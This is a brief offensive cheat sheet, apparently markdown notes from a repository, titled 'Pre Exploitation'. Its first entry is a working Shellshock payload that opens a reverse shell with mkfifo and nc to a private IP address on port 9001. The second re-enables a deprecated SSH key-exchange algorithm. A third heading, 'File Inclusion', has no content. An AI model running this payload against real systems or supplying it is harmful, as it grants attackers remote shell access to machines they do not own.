 # Pre Exploitation


1. Shellshock
```
() { :;};echo -e "\\r\\n$(/bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.246.133 9001 >/tmp/f')"

```

2. deprecated ssh
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1
```

3. File Inclusion
